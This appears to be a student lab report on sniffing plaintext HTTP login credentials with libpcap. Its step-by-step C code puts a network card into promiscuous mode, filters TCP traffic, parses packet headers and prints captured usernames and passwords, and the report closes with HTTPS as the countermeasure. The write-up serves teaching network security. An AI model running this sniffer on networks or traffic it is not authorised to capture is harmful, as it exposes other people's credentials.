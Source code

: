 # Packet Sniffing Attack And Sniffing HTTP Passwords



## 1. Introduction

In an usual networking scenario, all packets flowing across a network are received by the Network Interface Card (NIC) of any device of the network. Then the NIC checks if the MAC address of the destination machine in the packet matches with the one of the NIC. If they don't match, the packet is discarded. If they do match, the packet is farther passed to the kernel who dispatches a handler function. The handler function passes the packet to the proper user program.

In this scenario, the packets not intended for a machine are discarded by the NIC. But fortunately most of the NICs have a special mode called *promiscuous mode*. In this mode, the NIC passes all the received packets to the kernel. So if a user program is registered to receive all such packets, it will be able to read all the packets flowing across the network. This process is called packet sniffing. Usually network administrators use packet sniffing to understand network characteristics and troubleshoot networks if necessary. But intruders can also use it to gain access to confidential data.

More details on packet sniffing have been explained in the design report of this project with appropriate diagrams.



## 2. Steps of Attack

To implement the packet sniffing attack, I needed to put the NIC into promiscuous mode and create a raw socket to receive all frames. As I was trying to sniff only HTTP requests, I also needed to filter packets. For these purposes, I have used an API called *pcap* provided by the library *libpcap*. pcap provides some functions to create a packet sniffing environment and also allows to attach BSD packet filters to discard unwanted packets. The steps of the attack are described below:

1. First I have called the *pcap_open_live* function to get a packet capture handle to look at the packets received by the NIC *enp0s3*. The value of the third parameter is set to 1 in order to put the NIC into promiscuous mode.

   ```c++
   // errbuf is the buffer where the error message will be saved in case of a failure.
   handle = pcap_open_live("enp0s3", BUFSIZ, 1, 1000, errbuf);
   if(handle == NULL) // true if the preceding function call fails
   {
       printf("Failed to create socket\n");
       printf("Error message: %s\n", errbuf);
       return 0;
   }
   ```

2. Then I have created a BPF using the *pcap_compile* and *pcap_setfilter* functions. The filter expression **"ip proto tcp"** allows only IPv4 packets with TCP protocol to be captured. As I'm trying to sniff only HTTP requests, this filtering will discard a lot of unwanted packets.

   ```c++
   struct bpf_program fp;
   char filter_exp[] = "ip proto \\tcp"; // capturing only IPv4 packets with TCP protocol
   bpf_u_int32 net;
   
   int compile_res = pcap_compile(handle, &fp, filter_exp, 0, net);
   if(compile_res == PCAP_ERROR) {
       printf("Failed to compile BPF\n");
       pcap_perror(handle, "Error");
       return 0;
   }
   
   int setup_res = pcap_setfilter(handle, &fp);
   if(setup_res == PCAP_ERROR) {
       printf("Failed to attach BPF\n");
       pcap_perror(handle, "Error");
       return 0;
   }
   ```

3.  Next, I have called the *pcap_loop* function to start packet capturing. The second argument *-1* indicates that there is no limit to the number of captured packets. The third argument *got_packet* is the callback handler function that will be invoked when a packet is captured.
	```c++
	pcap_loop(handle, -1, got_packet, NULL);
	```
	
4. In the *got_packet* function, I have first type-cast the received packet into a custom *ipheader* structure. But I had to add the offset for the ethernet header with the start of the frame. From the created struct, I can extract all the data contained by the IP header of the packet. Now I can print the source and destination IP addresses.

   ```c++
   struct ipheader * ip = (struct ipheader *) (packet + sizeof(struct ethheader));
   ```

   *ipheader* and *ethheader* are two custom structures that contain all the header information of corresponding protocols.

   ```c++
   /* Ethernet header */
   struct ethheader {
     u_char  ether_dhost[6]; /* destination host address */
     u_char  ether_shost[6]; /* source host address */
     u_short ether_type;     /* protocol type (IP, ARP, RARP, etc) */
   };
   
   /* IP Header */
   struct ipheader {
     unsigned char      iph_ihl:4, //IP header length
                        iph_ver:4; //IP version
     unsigned char      iph_tos; //Type of service
     unsigned short int iph_len; //IP Packet length (data + header)
     unsigned short int iph_ident; //Identification
     unsigned short int iph_flag:3, //Fragmentation flags
                        iph_offset:13; //Flags offset
     unsigned char      iph_ttl; //Time to Live
     unsigned char      iph_protocol; //Protocol type
     unsigned short int iph_chksum; //IP datagram checksum
     struct  in_addr    iph_sourceip; //Source IP address
     struct  in_addr    iph_destip;   //Destination IP address
   };
   ```
   
5. Then I have extracted the TCP datagram in a similar way. A small difference is the IP header length is contained by the *iph_ihl* field as count of 32 bit words. We can then get the actual application message size by substracting the TCP header length contained by the *doff* field.
	```c++
	struct tcphdr *tcphh =
	    (struct tcphdr*) (packet + sizeof(struct ethheader) + ip->iph_ihl * 4);
	int data_size = ntohs(ip->iph_len) - ip->iph_ihl * 4 - tcphh->doff * 4;
	```
	
	*tcphdr* is a custom structure containing information of *TCP* header.
	
	```c++
	/* TCP Header */
	struct tcpheader {
	    unsigned short int source; // Source port
	    unsigned short int dest; // Destination port
	    unsigned int seq; // Sequence number
	    unsigned int ack_seq; // Acknowledgement Number
	    unsigned short int   res1:4,
	            doff:4, // Header length
	            fin:1,
	            syn:1,
	            rst:1,
	            psh:1,
	            ack:1,
	            urg:1,
	            ece:1,
	            cwr:1;
	    unsigned short int window; // Window size
	    unsigned short int check; // checksum
	    unsigned short int urg_ptr; // Urgent pointer
	};
	```
6. Then I have determined the start of the actual message by adding appropriate offsets for different protocol headers. I have written a simple parser to determine if the data is indeed an HTTP request containing username and passwords. If the data is not what I intend to capture, the function returns without printing anything.
	```c++
	char* data = (char*) (packet + sizeof(ethheader) + ip->iph_ihl * 4 + tcphh->doff * 4);
	
	http_parser parser(data);
	if(parser.isHTTP() == false) return;
	```

7. Finally I have printed the HTTP message containing username and passwords along with the source and destination IP addresses.

   ```c++
   printf("Total data size: %hu\n", data_size);
   printf("           From: %s\n", inet_ntoa(ip->iph_sourceip));  
   printf("             To: %s\n\n", inet_ntoa(ip->iph_destip));
   
   printf("HTTP Message:\n");
   for(int i = 0; i < data_size; i++) printf("%c", data[i]);
   printf("\n\n");
   ```



## 3. Snapshots of Attacker and Victim screens



<img src="https://raw.githubusercontent.com/SlowDecay/packet-sniffer/main/attacker-screen.png" alt="attacker-screen" title="Attacker screen" style="zoom:100%;" />

​																			Figure 1: Attacker Screen



![victim-screen](https://raw.githubusercontent.com/SlowDecay/packet-sniffer/main/victim-screen.png)

​																			Figure 2: Victim Screen



## 4. Justification

As seen from the snapshots, the sniffer program could indeed capture the packet sent by the victim machine containing username and password. I have also tested it with some other websites. So I am confident that my attack is successfull.



## 5. Countermeasure

The countermeasure against packet sniffing attack is using secured protocols that encrypt data. HTTP is not secure, so a sniffer program can sniff and extract confidential data. If we use HTTPS, the sniffer program will still be able to sniff but cannot read the actual data anymore as it will be encrypted. Thus leakage of sensitive data can be prevented.


